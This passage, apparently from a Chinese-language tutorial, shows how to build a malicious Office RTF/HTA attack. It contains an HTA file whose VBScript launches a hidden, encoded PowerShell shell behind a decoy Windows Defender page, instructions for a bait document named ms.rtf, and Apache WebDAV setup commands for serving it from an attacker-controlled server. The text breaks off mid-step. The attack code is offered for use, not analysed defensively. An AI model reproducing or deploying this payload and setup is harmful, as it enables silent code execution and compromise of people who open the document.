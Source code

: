 

```
&lt;!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"&gt;  
   &lt;html xmlns="http://www.w3.org/1999/xhtml"&gt;  
   &lt;head&gt;  
   &lt;meta content="text/html; charset=utf-8" http-equiv="Content-Type" /&gt;  
   &lt;title&gt;Bonjour&lt;/title&gt;  
 &lt;script language="VBScript"&gt;  
  Set owFrClN0giJ = CreateObject("Wscript.Shell")   
  Set v1ymUkaljYF = CreateObject("Scripting.FileSystemObject")  
  If v1ymUkaljYF.FileExists(owFrClN0giJ.ExpandEnvironmentStrings("%PSModulePath%") + "..powershell.exe") Then  
   owFrClN0giJ.Run "powershell.exe -nop -w hidden -e ENCODED_B64_SHELL"  
  End If  
 &lt;/script&gt;  
 &lt;hta:application  
     id="oHTA"  
     applicationname="Bonjour"  
     application="yes"  
   &gt;  
   &lt;/hta:application&gt;  
   &lt;/head&gt;  
   &lt;div&gt;   
   &lt;object type="text/html" data="http://windows.microsoft.com/en-IN/windows7/products/features/windows-defender" width="100%" height="100%"&gt;  
   &lt;/object&gt;&lt;/div&gt;    
   &lt;body&gt;  
   &lt;/body&gt;  
   &lt;/html&gt;
```

**步骤2**

使用任意随机内容在Winword中创建一个简单的RTF文档。（在例子中，我使用字符串来作为我的内容）

命名为“ms.rtf”。

**步骤3**

将这2个文件发送到被我们完全控制的网络服务器上。我们假定它将被存储在/var/www/html中。

现在我们必须配置Apache才能将ms.rtf作为一个链接。配置Apache：



```
a2enmod dav
 a2enmod dav_fs
 a2enmod dav_lock
 a2enmod headers
 service apache2 restart
```

以下命令将会：

将“Content-Type application/rtf”添加到/ms中的所有文件中
